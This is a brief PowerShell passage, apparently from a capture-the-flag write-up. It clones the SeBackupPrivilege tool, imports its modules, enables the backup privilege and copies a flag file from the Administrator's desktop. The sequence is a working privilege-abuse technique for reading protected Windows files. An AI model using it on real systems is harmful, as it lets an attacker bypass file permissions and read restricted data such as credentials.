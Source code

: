     PS> git clone https://github.com/giuliano108/SeBackupPrivilege.git
    PS> cd SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/
    PS> Import-Module SeBackupPrivilegeCmdLets.dll
    PS> Import-Module SeBackupPrivilegeUtils.dll

    PS> Set-SeBackupPrivilege
    PS> Get-SeBackupPrivilege

    PS> Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt flag.txt
    PS> cat flag.txt  # flag here
    ```

    \
